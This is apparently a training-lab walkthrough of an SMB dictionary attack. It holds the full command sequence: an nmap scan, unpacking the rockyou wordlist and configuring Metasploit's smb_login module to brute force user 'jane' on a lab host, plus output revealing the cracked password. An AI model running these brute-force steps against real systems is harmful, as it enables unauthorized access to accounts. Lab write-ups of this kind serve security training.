 ------

## Lab 6

>  🔬 [Samba Recon: Dictionary Attack](https://attackdefense.com/challengedetails?cid=556)
>
>  - Target IP: `192.174.58.3`
>  - Linux SMB detailed enumeration using `word lists`

`Word lists` are lists of already known and used passwords, some of them leaked from breached websites or other services. Those passwords can be used as part of the attack via brute force tools.

In Kali Linux [wordlists](https://www.kali.org/tools/wordlists/) can be found inside `/usr/share/wordlists` directory.

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
# Unzip rockyou.txt list
```

```bash
ip -br -c a
	eth1@if108489   UP   192.174.58.2/24
```

- Target IP is `192.174.58.3`

```bash
nmap 192.174.58.3
	139/tcp open  netbios-ssn
	445/tcp open  microsoft-ds
```

- Use [`smb_login`](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login) metasploit module to bruteforce *jane*'s password

```bash
msfconsole
```

```bash
use auxiliary/scanner/smb/smb_login 
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set SMBUser jane
set RHOSTS 192.174.58.3
exploit
```

```bash
[*] 192.174.58.3:445      - 192.174.58.3:445 - Starting SMB login bruteforce
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:admin',
[!] 192.174.58.3:445      - No active DB -- Credential data will not be saved!
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:123456',
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:12345',
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:123456789',
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:password',
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:iloveyou',
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:princess',
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:1234567',
[-] 192.174.58.3:445      - 192.174.58.3:445 - Failed: '.\jane:12345678',
[+] 192.174.58.3:445      - 192.174.58.3:445 - Success: '.\jane:abc123'
[*] 192.174.58.3:445      - Scanned 1 of 1 hosts (100% complete)
```
